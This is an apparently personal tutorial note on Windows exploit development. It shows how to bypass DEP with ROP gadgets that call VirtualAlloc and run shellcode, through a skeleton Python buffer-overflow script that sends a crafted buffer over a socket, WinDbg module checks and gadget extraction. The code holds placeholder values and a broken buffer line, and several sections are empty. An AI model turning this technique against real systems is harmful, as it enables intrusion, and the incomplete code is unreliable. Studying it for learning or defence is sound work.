 # DEP Bypass

Uses Gadgets / Rop Chains to call the `VirtualAlloc` function and execute shellcode

### 1. Skeleton Starting Python Code
```
import socket
import sys
from struct import pack

# variables
SIZE = 500

# CommandBuffer
# These lines execute VirtualAlloc with shellcode
cb  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
cb += pack("<L", (0x46464646)) # Shellcode Return Address
cb += pack("<L", (0x47474747)) # # dummy Shellcode Address
cb += pack("<L", (0x48484848)) # dummy dwSize 
cb += pack("<L", (0x49494949)) # # dummy flAllocationType 
cb += pack("<L", (0x51515151)) # dummy flProtect

# buffer
offset = b'\x41' * SIZE
eip = b'\x42' * 4
rop = b'\x43' * (0x600 - SIZE - len(eip))

buf = b'offset + va + eip + rop'
print('[I] %s : %s' % (len(buf),buf)) # always good to print buffers to make sure they meet expectation

def main():
  if len(sys.argv) != 3:
    print('Usage: %s <ip_address> <port>\n' % (sys.argv[0]))
    sys.exit(1)

  server = sys.argv[1]
  port = sys.argv[2]
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  
  s.send(buf)
  s.close()

  print('[+] Packet sent')
  sys.exit()

if __name__ == '__main__':
  main()
```

### 2. Identify Offset  
...  

### 3. Find Bad Characters 
[Finding Bad Characters](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/exploit_dev/identifying_bad_characters.md)  

### 4. Identify File(s) to use for Gadgets
* Files must not have DEP enabled.
* Files must not have bad characters in high bits of memory address
```
# Using Windbg
# list modules
>lm
start    end        module name
00190000 001c3000   snclientapi   (deferred)             
001d0000 001fd000   libcclog   (deferred)             
00400000 00c0c000   GraceServer   (deferred)             
012c0000 01302000   NLS        (deferred)             
01380000 013ab000   gsk8iccs   (deferred)             
01440000 0147a000   icclib019   (deferred)             
030d0000 031c0000   libeay32IBM019   (deferred)

>!dh -f <memory base address>
 ...
  # This means DEP/NX is enabled
    4140  DLL characteristics
            Dynamic base
            NX compatible
            Guard
  ...
  # No DEP enabled
  0  DLL characteristics
```

### 5.  Extract Gadgets from file

Using `rp-win-x86.exe`
```
C:\rp-win-x86 -f <file> -r <max number of instructions> > <output file>
```
Load the output file into Visual Studio Code or text editor to search.

### 6.  Access the Bytes containing the dummy VirtualAlloc Address

  1. Save the ESP register address into another register, such as EAX or ESI.  This address will later be used with an offset to access the dummy VirtualAlloc Address.
     * Search the gadgets text file for suitable operations to accomplish this.
     ```
     # sample regex
     mov (?!ebp, )[^,]+, esp
     push esp ;   
     ```
     * Place first gadget into eip.  Subsequent gadgets should be in the 'rop' section
     ```
     ...
     # Gadgets
     # 0x5052838d: push esp ; push eax ; ret 
     # 0x5053d7e4: pop edi ; pop esi ; ret  ;

     # rop chains
     eip = pack("<L",(0x5052838d)) # push esp ; push eax ; ret | Move esp to stack
     rop = pack("<L", (0x5053d7e4)) # pop edi ; pop esi ; ret  ; | pop esp into esi

     ...
     buf = offset + cb + eip + rop 
     ```

### 7. Obtaining VirtualAlloc Address

### 8. 

